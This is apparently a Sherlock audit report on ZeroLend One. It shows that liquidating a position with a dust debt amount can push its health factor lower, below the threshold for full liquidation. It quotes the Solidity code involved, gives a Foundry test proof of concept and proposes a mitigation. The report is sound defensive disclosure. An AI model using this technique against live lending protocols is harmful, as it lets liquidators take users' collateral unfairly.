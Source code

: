 Rapid Onyx Meerkat

High

# The position's HF may end up even lower after liquidation

### Summary

Since a position can be partially liquidated without comparing the health factor (HF) after liquidation, the position's HF may end up even lower.

### Root Cause

[Pool.sol::liquidate](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/Pool.sol#L130-L132) The value of `debtAmt` can be specified within the liquidation function.
```solidity
  function liquidate(address collat, address debt, bytes32 pos, uint256 debtAmt, DataTypes.ExtraData memory data) public {
    _liquidate(collat, debt, pos, debtAmt, data);
  }
```

[LiquidationLogic.sol::_calculateDebt](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L259-L273) If `params.debtToCover` is less than `maxLiquidatableDebt` , `params.debtToCover` is used as `actualDebtToLiquidate`
```solidity
  function _calculateDebt(
    DataTypes.ExecuteLiquidationCallParams memory params,
    uint256 healthFactor,
    mapping(address => mapping(bytes32 => DataTypes.PositionBalance)) storage balances
  ) internal view returns (uint256, uint256) {
    uint256 userDebt = balances[params.debtAsset][params.position].debtShares;

    uint256 closeFactor = healthFactor > CLOSE_FACTOR_HF_THRESHOLD ? DEFAULT_LIQUIDATION_CLOSE_FACTOR : MAX_LIQUIDATION_CLOSE_FACTOR;

    uint256 maxLiquidatableDebt = userDebt.percentMul(closeFactor);

    uint256 actualDebtToLiquidate = params.debtToCover > maxLiquidatableDebt ? maxLiquidatableDebt : params.debtToCover;

    return (userDebt, actualDebtToLiquidate);
  }
```

Each `liquidation` incurs an additional `liquidationBonus`, which is paid by the position owner. If a small dust amount of `debtAmt` is used to liquidate the current position, it can result in the health factor (HF) being lower than it was before.

### Internal pre-conditions

1. set default borrowRate && LqRate `return (2e27,2e27);`


### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

1.HF can be lower than it was, assume HF is 0.95e18 , after liquidation it can be 0.9e18 , then user's all position can be liquidated.
```solidity
    uint256 public constant CLOSE_FACTOR_HF_THRESHOLD = 0.95e18;

    uint256 closeFactor = healthFactor > CLOSE_FACTOR_HF_THRESHOLD ? DEFAULT_LIQUIDATION_CLOSE_FACTOR : MAX_LIQUIDATION_CLOSE_FACTOR;
```

### PoC

```solidity
  function testLiquidityLeftDustAmount() public {
    vm.warp(1641070800);
    //candy supply tokenB.
    uint256 mintAmount = 100 ether;
    DataTypes.ExtraData memory data = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params =
      INFTPositionManager.AssetOperationParams(address(tokenB), candy, 10e18, 1, data);
    _mintAndApprove(candy, tokenB, mintAmount, address(nftPositionManager));

    vm.startPrank(candy);
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params);
    vm.stopPrank();

    //alice supply tokenA.
    params = INFTPositionManager.AssetOperationParams(address(tokenA), alice, 10e18, 2, data);

    _mintAndApprove(alice, tokenA, mintAmount, address(nftPositionManager));
    vm.startPrank(alice);
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params);

    //alice borrow.
    params = INFTPositionManager.AssetOperationParams(address(tokenB), alice, 3e18, 2, data);
    nftPositionManager.borrow(params);

    skip(180 days);

    //price goes down.
    oracleA.updateAnswer(0.74e8);

    //lq alice's position.
    (,,,,,uint256 healthFactorBefore) = pool.getUserAccountData(address(nftPositionManager),2);
    //alice's supply is being lq.
    //lq alice's assets.
    bytes32 position = keccak256(abi.encodePacked(address(nftPositionManager), 'index', uint256(2)));
    vm.stopPrank();

    tokenB.mint(address(this),1e18);
    tokenB.approve(address(pool), 1e18);
    pool.liquidate(address(tokenA), address(tokenB), position, 1e18, data);

    (,,,,,uint256 healthFactorAfter) = pool.getUserAccountData(address(nftPositionManager),2);

    assert(healthFactorBefore > healthFactorAfter);
  }
```

### Mitigation

Compare user positon's HF during liquidation